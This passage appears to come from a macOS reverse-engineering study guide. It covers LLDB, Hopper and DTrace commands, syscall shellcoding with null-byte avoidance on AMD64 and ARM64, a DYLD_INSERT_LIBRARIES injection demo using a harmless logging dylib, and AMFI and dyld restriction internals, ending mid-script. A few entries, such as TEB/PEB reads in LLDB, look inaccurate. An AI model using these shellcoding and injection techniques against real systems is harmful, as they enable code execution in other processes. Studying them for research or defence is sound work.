| Step Over | `thread step-over` | `(lldb) thread step-over` | `ni` | Executes the next line or instruction, stepping over function calls. |
| Step Out | `thread step-out` | `(lldb) thread step-out` | `finish` | Continues execution until the current function completes. |
| **Monitoring & Debugging Windows** | | | | |
| Command Interface | `LLDB console` | Access through terminal or IDE console | | The primary interface for all LLDB commands. |
| Watchpoint Set | `watchpoint set` | `(lldb) watchpoint set variable myVar` | | Sets a watchpoint for a variable to monitor its value changes. |
| View Local Variables | `frame variable` | `(lldb) frame variable` | | Displays local variables in the current frame. |
| View Registers | `register read` | `(lldb) register read` | | Displays the values of CPU registers. |
| View Memory | `memory read` | `(lldb) memory read <ADDRESS>` | | Allows examination of memory contents. |
| View Call Stack | `bt` | `(lldb) bt` | | Displays the current call stack. |
| View Disassembly | `disassemble` | `(lldb) disassemble --name main` | | Shows disassembled code for a function. |
| **Advanced Usage & Customization** | | | | |
| Python Scripting | `command script` | `(lldb) command script add -f my_script.my_func my_cmd` | | Adds a custom command using a Python function. |
| Aliases & Shortcuts | `command alias` | `(lldb) command alias b breakpoint set` | | Creates custom aliases for existing commands. |
| LLDB Init File | `~/.lldbinit` | Include commands in `~/.lldbinit` | | Loads custom LLDB settings and commands on startup. |
| Extend LLDB | Custom Python scripts | Use `script` command to run Python | | Write and run Python scripts for complex debugging tasks. |

### Symbols

| Category | Command/Action | Description | Example |
| --- | --- | --- | --- |
| **Symbol Configuration** | | | |
| Set Symbol File Path | `target symbols add` | Adds a new symbol file to the current target. | `(lldb) target symbols add /path/to/symbols` |
| Append Symbol Search Path | `settings set target.exec-search-paths` | Appends new paths to the symbol search paths. | `(lldb) settings set target.exec-search-paths /path/to/symbols` |
| Reload Symbols | `target modules reload` | Reloads symbol information for a specific module. | `(lldb) target modules reload --filename libmylib.dylib` |
| List Symbol Search Paths | `settings show target.exec-search-paths` | Displays the current symbol search paths. | `(lldb) settings show target.exec-search-paths` |
| Clear All Symbol Information | `target symbols clear` | Clears all symbol information from the current target. | `(lldb) target symbols clear` |

### Display & Manupilating ( CPU & Memory):

| Category                      | Command/Action                     | Description                                         | Example                                                              |
|-------------------------------|------------------------------------|-----------------------------------------------------|----------------------------------------------------------------------|
| **Memory Examination**        |                                    |                                                     |                                                                      |
| Disassemble Memory            | `disassemble --start-address`      | Disassembles code starting from a specified address.| `(lldb) disassemble --start-address 0x00400000`                     |
| Read Memory                   | `memory read`                      | Displays memory content at a specified address.     | `(lldb) memory read 0x00400000`                                      |
| Write Memory                  | `memory write`                     | Writes data to a specified memory address.          | `(lldb) memory write 0x00400000 0x90`                                |
| **Memory Dumping**            |                                    |                                                     |                                                                      |
| Dump Memory as Bytes          | `memory read --format b`           | Reads memory content as bytes.                      | `(lldb) memory read --format b 0x00400000`                           |
| Dump Memory as Words          | `memory read --format w`           | Reads memory content as 16-bit words.               | `(lldb) memory read --format w 0x00400000`                           |
| Dump Memory as Double Words   | `memory read --format W`           | Reads memory content as 32-bit double words.        | `(lldb) memory read --format W 0x00400000`                           |
| Dump Memory as Quad Words     | `memory read --format q`           | Reads memory content as 64-bit quad words.          | `(lldb) memory read --format q 0x00400000`                           |
| Dump Memory as Pointers       | `memory read --format p`           | Reads memory content as pointer values.             | `(lldb) memory read --format p 0x00400000`                           |
| **Searching in Memory**       |                                    |                                                     |                                                                      |
| Search for Byte Pattern       | `memory find`                      | Searches memory for a specific byte pattern.        | `(lldb) memory find 0x00400000 0x00401000 0x90`                      |
| Search for ASCII String       | `memory find --string`             | Searches memory for an ASCII string.                | `(lldb) memory find --string 0x00400000 0x00401000 "Hello"`          |
| **CPU Registers Manipulation**|                                    |                                                     |                                                                      |
| Show All Registers            | `register read`                    | Displays all CPU registers.                         | `(lldb) register read`                                               |
| Read Specific Register        | `register read`                    | Displays a specific register value.                 | `(lldb) register read eax`                                           |
| Write to Register             | `register write`                   | Writes a value to a specific register.              | `(lldb) register write eax 5`                                        |
| **Memory Formatting Options** |                                    |                                                     |                                                                      |
| Read Memory as ASCII String   | `memory read --format s`           | Reads memory content as ASCII strings.              | `(lldb) memory read --format s 0x00400000`                           |
| Read Memory as Unicode String | `memory read --format U`           | Reads memory content as Unicode strings.            | `(lldb) memory read --format U 0x00400000`                           |
| Write ASCII String to Memory  | `memory write --format s`          | Writes an ASCII string to memory.                   | `(lldb) memory write --format s 0x00400000 "Hello, World!"`          |
| Write Unicode String to Memory| `memory write --format U`          | Writes a Unicode string to memory.                  | `(lldb) memory write --format U 0x00400000 "Hello, World!"`          |
| Read Memory as Hex String     | `memory read --format x`           | Reads memory content and displays it as hex.        | `(lldb) memory read --format x 0x00400000`                           |
| Read Memory as Decimal        | `memory read --format d`           | Reads memory content and displays it as decimal.    | `(lldb) memory read --format d 0x00400000`                           |

### Breakpoints in LLDB

| Breakpoint Type              | Command Example                             | Description |
|------------------------------|---------------------------------------------|-------------|
| **Software Breakpoints**     | `breakpoint set --address [Address]`        | Sets a software breakpoint at a specified memory address. |
|                              | `breakpoint set --name [Function] --shlib [Module]` | Sets a breakpoint at the start of a function within a specific module. |
| **Unresolved Breakpoints**   | `breakpoint set --name [Function]`          | Sets a breakpoint that will resolve when the function is loaded into memory. |
| **Conditional Breakpoints**  | `breakpoint set --name [Function] --condition '[Condition]'` | Sets a breakpoint with a condition. The breakpoint will only trigger if the condition evaluates to true. |
|                              | `breakpoint command add [BreakpointID] --python '[PythonScript]'` | Attaches a Python script to a breakpoint. The script executes when the breakpoint hits. |
| **Breakpoint-Based Actions** | `breakpoint command add [BreakpointID]`     | Attaches a series of LLDB commands to a breakpoint, which are executed when the breakpoint is hit. |
| **Hardware Breakpoints**     | `breakpoint set --hardware --address [Address]` | Sets a hardware breakpoint at a specified address. |

### Debugging (Stepping & Tracing) in LLDB

| Action                      | Command                        | Example                                | Description |
|-----------------------------|--------------------------------|----------------------------------------|-------------|
| **Step Over**               | `thread step-over`             | `(lldb) thread step-over`              | Executes the next line or instruction, stepping over function calls. |
| **Step Into**               | `thread step-in`               | `(lldb) thread step-in`                | Executes the next line or instruction, stepping into functions and calls. |
| **Step Over with Count**    | `thread step-over --count [n]` | `(lldb) thread step-over --count 2`    | Executes the next `[n]` instructions, stepping over any function calls. |
| **Step Into with Count**    | `thread step-in --count [n]`   | `(lldb) thread step-in --count 2`      | Executes the next `[n]` instructions, tracing into any function calls. |
| **Step Out**                | `thread step-out`              | `(lldb) thread step-out`               | Continues execution until the current function returns to its caller. |
| **Step to Next Return**     | `thread until-return`          | `(lldb) thread until-return`           | Executes until the current function returns. |
| **Step to Next Branch**     | `thread until-branch`          | `(lldb) thread until-branch`           | Executes until it reaches any branching instruction. |
| **Step to Next Call**       | `thread until-call`            | `(lldb) thread until-call`             | Executes until a call instruction is reached within the current function. |
| **Step Until Address**      | `thread until --address [addr]`| `(lldb) thread until --address 0x00400000` | Continues execution until reaching the specified address. |


### Modules & Info Commands in LLDB

| Command | Example | Description |
| --- | --- | --- |
| **List Loaded Modules** | `image list` | Lists all modules loaded by the process along with detailed information. |
| `image list [pattern]` | `(lldb) image list libc` | Lists modules that match the given pattern, useful for filtering specific libraries or modules. |
| **Examine Symbols** | `image lookup --name [name]` | Looks up symbols by name across all modules. |
| `image lookup --name [name] --shlib [module]` | `(lldb) image lookup --name strcpy --shlib libc` | Lists symbols within a specific module that match the symbol name provided. |
| **Address Information** | `image lookup --address [addr]` | Provides detailed information about the function or symbol at the specified address including the module it belongs to. |
| **Memory Protection Attributes** | *Not directly supported in LLDB* | LLDB does not directly provide page protection details, typically handled by OS-specific commands or tools. |
| **Thread Environment Block** | *Access via memory read* | `(lldb) memory read --format x --size 8 --count 1 $teb` | Reads the Thread Environment Block (TEB) for the current thread indirectly by reading the relevant register or memory address. |
| **Process Environment Block** | *Access via memory read* | `(lldb) memory read --format x --size 8 --count 1 $peb` | Shows the Process Environment Block (PEB) indirectly by accessing the relevant memory area, which holds process-related information. |

### Evaluate Expression in LLDB

| Command                      | Example                                         | Description                                                    |
|------------------------------|-------------------------------------------------|----------------------------------------------------------------|
| **Evaluate Expression**      | `expression`                                    | Evaluates C/C++ expressions, including function calls and accessing variables. |
| expression [expr]            | `(lldb) expression 3 + 4`                       | Evaluates the sum of 3 and 4.                                  |
| **Convert Hex to Dec**       | `expression (int)0x20`                          | Converts a hexadecimal number to its decimal equivalent.       |
| **Convert Dec to Hex**       | `expression (hex)54`                            | Converts a decimal number to its hexadecimal equivalent. Note: Use format specifiers for output formatting. |
| **Bitwise Shift**            | `expression 3 << 1`                             | Performs a bitwise left shift on a number, effectively multiplying it by 2. |
| **Bitwise AND**              | `expression 0x12345678 & 0xffff`                | Performs a bitwise AND operation to mask certain bits.         |
| **Use Register Value**       | `expression $rip + 24`                          | Evaluates an expression using the current value of the rip register (note: rip for x64, eip for x86) and adds a value to it. |
| **Negative Hex Representation** | `expression -0x0fe`                         | Evaluates the negative hexadecimal representation of a number. |
| **Evaluate with Context**    | `expression -- [expr]`                          | Evaluates expressions with full access to the program’s variables and memory. |
|                             | `(lldb) expression -- (char*)$rdi`              | Interprets the value of the rdi register as a pointer to a character (string). |
| **Format Results in Hex**    | `expression -f x -- (expression)`               | Formats the result of an expression in hexadecimal.            |


### LLDB Scripting

| Description                                           | Script Command                                | Example                                                                                     | Notes                                                                                                   |
|-------------------------------------------------------|-----------------------------------------------|---------------------------------------------------------------------------------------------|---------------------------------------------------------------------------------------------------------|
| **Assign a value to a pseudo-register**               | `command script add`                          | `(lldb) command script add -f my_script.set_register my_cmd`                                | Adds a custom command that sets a register value, defined in a Python function `my_script.set_register`. |
| **Execute a command repeatedly**                      | Python looping in script                      | `(lldb) command script add -f my_script.loop_command my_loop`                               | Adds a loop command defined in `my_script.loop_command` to execute LLDB commands repeatedly.             |
| **Conditional breakpoint with script**                | `breakpoint command add`                      | `(lldb) breakpoint set --name func -c "int_var == 1"`                                       | Sets a conditional breakpoint that only triggers if `int_var` equals 1.                                 |
| **Write to a log file**                               | Python scripting to log output                | `(lldb) command script add -f my_script.log_output log_cmd`                                 | Custom script to log debugging output to a file, defined in `my_script.log_output`.                     |
| **Branching in script**                              | Python if-else in command script              | `(lldb) command script add -f my_script.check_condition check_cmd`                          | Implements branching logic within an LLDB command script defined in `my_script.check_condition`.        |
| **Using aliases**                                    | `command alias`                               | `(lldb) command alias ls_regs register read`                                                | Creates an alias `ls_regs` for the `register read` command.                                             |
| **Script loops with aliases**                        | Python loops to execute commands              | Define a loop in a Python script and use `lldb API` to execute LLDB commands within the loop. | Useful for repetitive tasks, where Python controls the loop logic.                                      |
| **Data manipulation with scripts**                   | Use Python scripts for data manipulation      | `(lldb) command script add -f my_script.manipulate_data data_cmd`                           | Custom script to manipulate data, defined in `my_script.manipulate_data`.                              |
| **Logging with a condition**                         | Conditional logging via Python script         | `(lldb) command script add -f my_script.conditional_log log_if_cmd`                         | Adds conditional logging functionality through a custom script `my_script.conditional_log`.             |
| **Iterating over a list of addresses**               | Python for loop in scripting                  | Script a Python for loop to iterate over addresses and execute LLDB commands.               | Use Python to automate tasks over a range of memory addresses.                                          |
| **Conditionally modifying memory**                   | Use Python conditionals and LLDB commands     | Define conditions in Python and use LLDB API to modify memory based on these conditions.     | Combines Python's conditional logic with memory modification commands in LLDB.                         |
| **Running a script file**                            | `command source`                              | `(lldb) command source /path/to/my_script.lldb`                                             | Executes LLDB commands from a script file.                                                              |
| **Custom command sequences**                         | `command script add`                          | `(lldb) command script add -f my_script.custom_sequence my_sequence`                        | Adds a custom command sequence defined in `my_script.custom_sequence`.                                 |
## Hopper
### Set a breakpoint

- One the red line on the left side click on the line you want to set breakpoint at:


### BookMark an instruction

- On the green line on the left side click on the line next to the instruction you want to bookmark:


### Bookark list


### Breakpoints list


### Debugger
- Choose the local or remote debugging

### Local Debugging


1. **Controls**:
   - This area typically contains buttons for controlling the debugging session, such as starting/pausing the execution (Play/Pause buttons), stopping the debug session, stepping into/over/out of functions (Step commands), and potentially restarting the debugged program. The "Connected" indicator suggests a successful attachment to the process or target for debugging.

2. **Threads and Callstack**:
   - This section is split into two main parts:
     - **Threads**: Shows a list of all the threads in the current debugging session. You can select a thread to view its call stack and register state.
     - **Callstack**: Displays the call stack of the selected thread. The call stack lists the sequence of function calls that are currently active. It starts with the current function where the execution is paused and goes back to the initial function call.

3. **Attach to Process**:
   - This button is used to attach the debugger to a running process. You can use this if you want to debug a program that is already running rather than starting a new debug session.

4. **Register Groups**:
   - The register tabs (GPR, FPU, MMX, etc.) organize the display of the CPU's registers into groups:
     - **GPR (General Purpose Registers)**: Displays general-purpose registers like RAX, RBX, RCX, etc. These registers are used for a variety of purposes, including arithmetic and data manipulation.
     - **FPU (Floating-Point Unit Registers)**: Shows the state of floating-point registers used for floating-point arithmetic operations.
     - **MMX (Multimedia Extensions Registers)**: Lists MMX registers which are used for multimedia tasks like audio or video processing.
     - Each register may have indicators or buttons next to them for additional functionalities like setting watchpoints or modifying their values.
	- **Memory**: A tab or section for viewing and editing the memory of the process being debugged.
	- **Debugger Console**: An interface for typing commands directly into the debugger, similar to a command-line interface.
	- **Application Output**: Where the standard output and error streams from the debugged process are displayed. This is where you would see print statements or error messages from the program.
	- **Various CPU registers state** (right side): Displaying the current state of additional registers, like segment registers (CS, DS, ES, etc.) and flags (RFLAGS), providing status flags and control bits used by the CPU.
## DTrace
DTrace is a comprehensive dynamic tracing framework that is integrated into the `XNU` kernel on `macOS`. It provides detailed real-time insights into kernel and application behavior.

### DTrace Basic Terms
- **Providers**: Modules within the kernel that offer tracing functionality. Example: `syscall`.
- **Probes**: Trace points within providers that monitor specific events, like function entry and exit.
- **DTrace Consumers**: Utilities that interact with DTrace, such as the `dtrace` command.
- **D Language**: Scripting language used to write DTrace programs.

### DTrace and Utilities for Different Usages

| Utility/Command | Options | Usage | Explanation |
|-----------------|---------|-------|-------------|
| `dtrace` | `-l` | List Probes | Lists all DTrace probes available on the system. |
| `dtrace` | `-n 'probe description'` | Start Tracing | Initiates tracing based on a specified probe description. |
| `dtrace` | `-s script.d` | Run Script | Executes a DTrace script from a file. |
| `dtrace` | `-q` | Quiet Mode | Suppresses output of DTrace actions, useful for scripts that do not require immediate console output. |
| `dtruss` | `-n process` | Trace Process | Runs the dtruss script to trace system calls made by the specified process. |
| `dtruss` | `-e` | Trace Executable | Traces system calls when a specific executable is run. |
| `dtruss` | `-p PID` | Trace PID | Attaches to an existing process and traces its system calls. |
| `iosnoop` | N/A | I/O Monitor | Monitors file I/O activity in real-time. |
| `opensnoop` | `-n process` | File Access Monitor | Monitors files being opened by a specific process. |
| `execsnoop` | N/A | Exec Calls Monitor | Monitors execution of processes. |
| `errinfo` | N/A | Error Monitor | Monitors system call failures. |
| `dapptrace` | `-p PID` | Application Tracer | Traces application-level activity for the specified process ID. |
| `bitesize.d` | N/A | Disk I/O Size Analysis | Analyzes disk I/O size by process, using DTrace. |

#### Examples of DTrace Script Usage

1. **List all syscall probes for open calls**
   ```shell
   sudo dtrace -l -n 'syscall::open*:entry'
   ```

2. **Trace system calls for a process named 'myapp'**
   ```shell
   sudo dtrace -n 'syscall:::entry /execname == "myapp"/ { trace(probefunc); }'
   ```

3. **Run a DTrace script from a file**
   ```shell
   sudo dtrace -s /path/to/myscript.d
   ```

4. **Trace file opens for process ID 12345 using opensnoop**
   ```shell
   sudo opensnoop -p 12345
   ```

5. **Monitor disk I/O size by process using bitesize.d**
   ```shell
   sudo bitesize.d
   ```

- Scripting with `dtrace`:
	- https://docs.oracle.com/cd/E18752_01/html/819-5488/docinfo.html
	- https://docs.oracle.com/en/operating-systems/solaris/oracle-solaris/11.4/dtrace-guide/index.html

# Shellcoding On AMD64
## macOS System Call Classes
| Class Number | Class Name         | Description                 | Masked Value Example |
|--------------|--------------------|-----------------------------|----------------------|
| `0`          | `SYSCALL_CLASS_NONE` | Invalid System Calls        | `0x0000000`          |
| `1`          | `SYSCALL_CLASS_MACH` | Mach-related System Calls   | `0x01000000`         |
| `2`          | `SYSCALL_CLASS_UNIX` | Unix/BSD System Calls       | `0x02000000`         |
| `3`          | `SYSCALL_CLASS_MDEP` | Machine-dependent Syscalls  | `0x03000000`         |
| `4`          | `SYSCALL_CLASS_DIAG` | Diagnostic System Calls     | `0x04000000`         |
| `5`          | `SYSCALL_CLASS_IPC`  | Mach IPC System Calls       | `0x05000000`         |

Each system call class is associated with a unique number, which is shifted left by 24 bits (defined by `SYSCALL_CLASS_SHIFT`) to determine its class. The `SYSCALL_CLASS_MASK` and `SYSCALL_NUMBER_MASK` are used to extract the class and syscall number respectively.

For example, a traditional BSD system call such as `execve` (system call number `59` or `0x3b`) in the `SYSCALL_CLASS_UNIX` (number `2`) would be represented as `0x200003b` when passed to the syscall assembly instruction.

```asm
; Assembly example to make a syscall with execve (BSD) in macOS
mov rax, 0x200003b  ; Load the syscall number for execve (59 with class mask)
mov rdi, address    ; Address of the command to execute
mov rsi, argv       ; Pointer to an array of arguments
mov rdx, envp       ; Pointer to an array of environment variables
syscall             ; Make the system call
```

## Calling Conventions and Registers for Shellcoding on macOS (AMD64)

| Register | Usage |
|----------|-------|
| `RDI` | 1st function argument |
| `RSI` | 2nd function argument |
| `RDX` | 3rd function argument (and optionally the 2nd return value) |
| `RCX` | 4th function argument |
| `R8`  | 5th function argument |
| `R9`  | 6th function argument |
| `RAX` | Function return value |
| `RIP` | Instruction pointer |
| `RSP` | Stack pointer (must be 16-byte aligned before calls) |
| `RBP` | Frame pointer |
| `RBX` | Base pointer (optional use) |

If a function requires more than six arguments, additional arguments are passed on the stack. It is essential to ensure that the `RSP` is properly aligned before making a function call. Despite system calls often working without strict alignment, adhering to this requirement is a good practice to avoid unexpected behavior.

### Example
To illustrate how these registers are used in a function call, consider a function `foo` that takes three arguments.

```asm
; Assume arg1, arg2, and arg3 are already set with appropriate values
mov rax, syscall_number
mov rdi, arg1 ; 1st argument
mov rsi, arg2 ; 2nd argument
mov rdx, arg3 ; 3rd argument
syscall      ; Call the function
```

## Syscalls
You can find system calls numbers in the `syscalls.master` under the `xnu` source, You could choose the one you need with the version from the following link:
- https://opensource.apple.com/source/xnu/ and https://opensource.apple.com/releases/

## Avoid Null-Bytes in Syscalls
To find out the bit number to set with the `bts` instruction, you need to compare the binary representation of the syscall number (example: `0x3b`) with the binary representation of the syscall number plus the class mask (`0x200003b`). The `echo` and `bc` commands can be used to convert hexadecimal numbers to binary, and the `xargs`, `printf`, and `tr` commands format the output to compare the bits easily.

1. **Convert the syscall number (0x3b) to binary**:
```bash
echo "obase=2; ibase=16; 3B" | bc | xargs printf "%064s\n" | tr ' ' '0'
```
This command will output the binary representation of `0x3b` as a 64-bit number, padded with zeroes.

2. **Convert the syscall number with the class mask (0x200003b) to binary**:
```bash
echo "obase=2; ibase=16; 200003B" | bc | xargs printf "%064s\n" | tr ' ' '0'
```
This command will output the binary representation of `0x200003b` as a 64-bit number, padded with zeroes.

3. **Compare the Outputs**:
Look for the first bit that differs when comparing the binary output from step 1 to the output from step 2. The differing bit's position (starting from 0 on the right) is the bit you need to set with the `bts` instruction to transform the syscall number into the one with the class mask applied.

For instance, if the binary output for `0x3b` is:
```
000...0000111011
```
And the binary output for `0x200003b` is:
```
...0010000000000000000000111011
```
The differing bit is the 25th bit from the right (or the 24th index if you start counting from 0), which corresponds to the class mask.

Now, knowing that you need to set the 25th bit, you use the `bts` instruction with index 24 to set this bit in the register, as shown in the assembly example previously provided.

```bash
Syscall Number (0x3b):    000...0000111011
Syscall Number (0x200003b): ...0010000000000000000000111011
                               ^
                               |
                               +--- Bit to set with `bts`
```

- Now executring the syscall:
```
push  59         ; put 59 on the stack
pop   rax        ; pop it to RAX
bts   rax, 25    ; set the 25th bit to 1
syscall
```
# Shellcoding on ARM64
## Calling Conventions and Registers on macOS (Apple Silicon)

| Register | Usage                                                  | Description                         |
|----------|--------------------------------------------------------|-------------------------------------|
| `X0-X7`  | Function arguments and return values                   | Used to pass and return data from functions |
| `X8`     | Indirect return value address                          | Often used for memory allocation routines |
| `X9-X15` | Caller-saved temporary registers                       | Can be changed by the called function, must be saved by the caller if needed |
| `X16`    | Inter-procedural scratch register; syscall number      | Used for passing system call numbers |
| `X17`    | Inter-procedural scratch register                      | Temporary register, similar to `X16` |
| `X18`    | Reserved on Apple platforms                            | Should not be used in user programs |
| `X19-X28`| Callee-saved registers                                 | Must be saved and restored by the called function if used |
| `X29`    | Frame pointer (FP)                                     | Points to the base of the current stack frame |
| `X30`    | Link register (LR)                                     | Stores the return address |
| `SP`     | Stack pointer                                          | Must be 16-byte aligned at function calls |
| `PC`     | Program counter                                        | Points to the next instruction to execute |
| `XZR`    | Zero register                                          | Always reads as zero and ignores writes |

The ARM64 architecture requires that the stack pointer (`SP`) is 16-byte aligned before making a function call, which is crucial for maintaining a reliable call stack and preventing alignment faults. When writing shellcode or functions in assembly, you need to preserve this alignment by adjusting the stack accordingly before function calls.

```asm
; Example assembly code for ARM64 macOS system call
mov x16, #SYS_write     ; Load the syscall number for 'write' into X16
mov x0, #1              ; File descriptor 1 (stdout)
mov x1, buffer          ; Pointer to buffer to write from
mov x2, #buffer_size    ; Number of bytes to write
svc 0                   ; Issue the system call instruction
```


## Syscalls
You can find system calls numbers in the `syscalls.master` under the `xnu` source, You could choose the one you need with the version from the following link:
- https://opensource.apple.com/source/xnu/

## Avoid Null-Bytes in Syscalls
Instead of performing the syscall using `svc 0`, the argument for for `svc` is aribtrary value, So it can be replaced:
```asm
mov x16, #SYS_write     ; Load the syscall number for 'write' into X16
mov x0, #1              ; File descriptor 1 (stdout)
mov x1, buffer          ; Pointer to buffer to write from
mov x2, #buffer_size    ; Number of bytes to write
svc #1337                   ; Issue the system call instruction
```

# DYLD_INSERT_LIBRARIES Injection

1. **Understanding DYLD_INSERT_LIBRARIES**:
    - `DYLD_INSERT_LIBRARIES` is an environment variable similar to `LD_PRELOAD` on Linux.
    - It specifies a list of dynamic libraries to load before the application's own libraries.
    - Libraries specified in `DYLD_INSERT_LIBRARIES` are loaded and executed in the context of the target application.

2. **Creating a Dynamic Library**:
    - Write a C file for the dynamic library that will be injected. Example code:

      ```c
		#include <stdio.h>
		#include <syslog.h>

		__attribute__((constructor))
		static void myconstructor(int argc, const char **argv) {
		  printf("[+] dylib constructor called from %s\n", argv[0]);
		  syslog(LOG_ERR, "[+] dylib constructor called from %s\n", argv[0]);
		}
      ```

    - Compile this code into a dynamic library using GCC:

      ```bash
      gcc -dynamiclib example.c -o example.dylib
      ```

3. **Preparing the Target Application**:
    - Create a simple application to test the injection, such as a "Hello World" program:

      ```c
      #include <stdio.h>
      int main() {
          printf("Hello, World!\n");
          return 0;
      }
      ```

    - Compile the application:

      ```bash
      gcc hello.c -o hello
      ```

4. **Performing the Injection**:
    - Set the `DYLD_INSERT_LIBRARIES` environment variable to point to the compiled dylib and run the target application:

      ```bash
      DYLD_INSERT_LIBRARIES=example.dylib ./hello
      ```

    - The output should confirm that the dylib was loaded before the application's main function:

      ```plaintext
      [+] dylib constructor called from ./hello
      Hello, World!
      ```

5. **Monitoring Logs**:
    - Use macOS’s logging system to confirm the injection and monitor behaviors:

      ```bash
      log stream --style syslog --predicate 'eventMessage CONTAINS[c] "constructor"'
      ```

    - This command filters and streams log messages containing "constructor", showing live outputs as the injected dylib executes.

## Restrictions of DYLD_INSERT_LIBRARIES
To mitigate the abuse of the `DYLD_INSERT_LIBRARIES` environment variable, Apple has implemented specific restrictions in the dyld loader.  The key function in the dyld source code that manages the restrictions is `pruneEnvironmentVariables`, which is responsible for removing certain environment variables during the load process:

```c
static void pruneEnvironmentVariables(const char* envp[], const char*** applep) {
    // delete all DYLD_* and LD_LIBRARY_PATH environment variables
    ...
    dyld::log("dyld: DYLD_ environment variables being ignored because ");
    switch (sRestrictedReason) {
        case restrictedNot:
            break;
        case restrictedBySetGUid:
            dyld::log("main executable (%s) is setuid or setgid\n", sExecPath);
            break;
        case restrictedBySegment:
            dyld::log("main executable (%s) has __RESTRICT/__restrict section\n", sExecPath);
            break;
        case restrictedByEntitlements:
            dyld::log("main executable (%s) is code signed with entitlements\n", sExecPath);
            break;
    }
    ...
}
```
The removal of variables is influenced by:
1. **Setuid/setgid Executables**:
   - Environment variables starting with `DYLD_` are ignored if the executable has setuid or setgid bits set. This is a security measure to prevent privilege escalation by injecting unauthorized code into a higher-privileged process.

2. **Executables with Restricted Segment**:
   - If the executable contains a `__RESTRICT/__restrict` segment in the Mach-O file, `DYLD_` environment variables are also ignored. This segment signals that the binary opts out of certain dynamic loading features to increase its security stance.

3. **Entitlements and Code Signing**:
   - Executables that are code signed with entitlements may have restrictions on environment variables. If the `CS_RESTRICT` flag is set in the code signature, it indicates that the process is restricted, leading to the ignoring of `DYLD_` variables.

### Understanding `processRestricted` Function
The `processRestricted` function is pivotal in setting up the reasons for restrictions:
```c
static bool processRestricted(const macho_header* mainExecutableMH) {
    if (issetugid()) {
        sRestrictedReason = restrictedBySetGUid;
        return true;
    }
    ...
    if (syscall(SYS_csops, 0, CS_OPS_STATUS, &flags, sizeof(flags)) != -1) {
        if (flags & CS_RESTRICT) {
            sRestrictedReason = restrictedByEntitlements;
            return true;
        }
    }
    ...
    return false;
}
```
- This function checks for `setuid/setgid` statuses and whether the executable's code signature defines it as restricted.

## Debugging AMFI
1. **Setup**: 
   - Use `lldb` to attach to the process or during the process launch.
   - Set a breakpoint on `amfi_check_dyld_policy_self` to inspect how `AppleMobileFileIntegrity` (`AMFI`) influences the loading of dynamic libraries.

```bash
(lldb) b amfi_check_dyld_policy_self
Breakpoint 1: where = dyld`amfi_check_dyld_policy_self, address = 0x100001234
```

2. **Debugging**:
   - Continue execution to reach the breakpoint, then step through the code to observe how input flags are processed and output flags are set.

3. **Inspecting AMFI Output Flags**:
   - After the syscall, The output flags from `amfi_check_dyld_policy_self` (stored in `RCX` register) determine what an application can do concerning dynamic library loading. Each flag corresponds to a specific permission:
     - **AMFI_DYLD_OUTPUT_ALLOW_AT_PATH**: Allows loading dylibs from arbitrary paths.
     - **AMFI_DYLD_OUTPUT_ALLOW_PRINT_VARS**: Permits printing environment variables.
     - **AMFI_DYLD_OUTPUT_ALLOW_PATH_VARS**: Allows using path variables.
     - **AMFI_DYLD_OUTPUT_ALLOW_CUSTOM_SHARED_CACHE**: Permits custom shared cache settings.
     - **AMFI_DYLD_OUTPUT_ALLOW_FALLBACK_PATHS**: Enables fallback paths for library loading.
     - **AMFI_DYLD_OUTPUT_ALLOW_FAILED_LIBRARY_INSERTION**: Allows the insertion of libraries even if they fail some checks.
     - **AMFI_DYLD_OUTPUT_ALLOW_LIBRARY_INTERPOSING**: Permits library interposing.

### SIP and AMFI Bits
1. **System Integrity Protection (SIP) Bits**:
   - SIP is controlled using specific configuration flags. Each bit in the configuration represents a different aspect of system protection, such as allowing debugging or kernel extensions. These are set in the csrActiveConfig and checked against desired permissions.
   - Example flag: `CSR_ALLOW_TASK_FOR_PID` allows debugging processes.

2. **AMFI Policy Output Flags**:
   - These flags are set based on the security policy checks performed by AMFI. They influence the loader's behavior regarding environment variables and dynamic loading.
   - To interpret the flags, convert the output integer to binary and match each bit to the flag definitions.

### Checking Flags
- Use shell commands to interpret numeric values into binary for easier flag analysis:
  
```bash
echo "obase=2; ibase=16; $(printf '%X' $FLAGS)" | bc
```

### Script to check AMFI flags
```ObjC
#import <Foundation/Foundation.h>

typedef NS_OPTIONS(NSUInteger, amfi_dyld_policy_output_flag_set) {
    AMFI_DYLD_OUTPUT_ALLOW_AT_PATH               = (1 << 0),
    AMFI_DYLD_OUTPUT_ALLOW_PATH_VARS             = (1 << 1),
    AMFI_DYLD_OUTPUT_ALLOW_CUSTOM_SHARED_CACHE   = (1 << 2),
    AMFI_DYLD_OUTPUT_ALLOW_FALLBACK_PATHS        = (1 << 3),
    AMFI_DYLD_OUTPUT_ALLOW_PRINT_VARS            = (1 << 4),
    AMFI_DYLD_OUTPUT_ALLOW_FAILED_LIBRARY_INSERTION = (1 << 5),
    AMFI_DYLD_OUTPUT_ALLOW_LIBRARY_INTERPOSING   = (1 << 6),
};

void checkFlags(NSUInteger flags) {
    NSString *greenStart = @"\033[32m"; // Green start
    NSString *redStart = @"\033[31m";   // Red start
    NSString *colorEnd = @"\033[0m";    // Reset to default color
    
    NSLog(@"%@AMFI_DYLD_OUTPUT_ALLOW_AT_PATH (gLinkContext.allowAtPaths): %@%@", (flags & AMFI_DYLD_OUTPUT_ALLOW_AT_PATH) ? greenStart : redStart, (flags & 
AMFI_DYLD_OUTPUT_ALLOW_AT_PATH) ? @"Set" : @"Not Set", colorEnd);
    NSLog(@"%@AMFI_DYLD_OUTPUT_ALLOW_PATH_VARS (gLinkContext.allowEnvVarsPath): %@%@", (flags & AMFI_DYLD_OUTPUT_ALLOW_PATH_VARS) ? greenStart : redStart, (flags 
& AMFI_DYLD_OUTPUT_ALLOW_PATH_VARS) ? @"Set" : @"Not Set", colorEnd);
    NSLog(@"%@AMFI_DYLD_OUTPUT_ALLOW_CUSTOM_SHARED_CACHE (gLinkContext.allowEnvVarsSharedCache): %@%@", (flags & AMFI_DYLD_OUTPUT_ALLOW_CUSTOM_SHARED_CACHE) ? 
greenStart : redStart, (flags & AMFI_DYLD_OUTPUT_ALLOW_CUSTOM_SHARED_CACHE) ? @"Set" : @"Not Set", colorEnd);
    NSLog(@"%@AMFI_DYLD_OUTPUT_ALLOW_FALLBACK_PATHS (gLinkContext.allowClassicFallbackPaths): %@%@", (flags & AMFI_DYLD_OUTPUT_ALLOW_FALLBACK_PATHS) ? greenStart 
: redStart, (flags & AMFI_DYLD_OUTPUT_ALLOW_FALLBACK_PATHS) ? @"Set" : @"Not Set", colorEnd);
